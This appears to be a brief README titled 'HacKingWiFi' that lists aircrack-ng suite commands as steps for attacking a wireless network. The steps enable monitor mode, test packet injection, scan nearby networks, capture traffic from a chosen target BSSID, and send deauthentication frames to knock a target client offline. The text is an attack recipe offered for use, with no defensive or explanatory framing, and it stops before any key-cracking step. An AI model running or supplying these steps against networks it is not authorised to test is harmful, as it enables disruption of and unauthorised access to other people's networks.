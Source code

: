 # HacKingWiFi
HacKingWiFi 


## Algorithm Commands to HacKing WiFi 

- [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

- [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`
  
- [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $Capture_Name $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`
